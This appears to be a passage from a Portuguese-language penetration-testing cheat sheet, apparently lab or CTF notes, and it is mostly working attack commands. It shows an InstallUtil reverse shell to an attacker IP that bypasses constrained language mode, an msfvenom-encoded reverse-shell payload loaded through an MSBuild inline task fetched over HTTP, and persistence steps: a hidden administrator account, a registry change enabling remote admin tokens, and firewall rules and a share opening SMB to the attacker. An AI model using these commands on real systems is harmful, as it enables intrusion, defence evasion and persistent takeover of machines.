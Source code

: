 ```bash
C:\Windows\microsoft.net\framework64\v4.0.30319\InstallUtil.exe /logfile=/LogToConsole=True /U /revshell=true /rhost=10.10.16.183 /rport=443 C:\Users\amanda\downloads\CLM.exe
```

############################### OU ###############################

```bash
wget https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.16.183 LPORT=443 -e x86/shikata_ga_nai -i 20 -f csharp -o rev_session_443.cs -v shellcode
cat rev_session_443.cs | xclip -sel clip
# Edit Var shellcode to the new reverse shell code
python3 -m http.server 80
# On windows
IWR -URI http://10.10.16.183/revshell.xml -OutFile revshell.csproj
C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe revshell.csproj

```

# 24. Check Env

```bash
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
```

# 25. Allow Connection - Rules Firewall (Criação de percistência)

```powershell
# Criação de um novo usuário
net user javali javali123! /add
# Adicionar esse novo usuário ao grupo administrators
net localgroup Administrators javali /add
# Adicionar permições de executar commandos fora do sistema local (via web...)
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

```powershell
netsh advfirewall firewall add rule name="Samba Port" protocol=TCP dir=in localport=445 action=allow
netsh advfirewall firewall add rule name="Samba Port" protocol=TCP dir=out localport=445 action=allow

net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

```
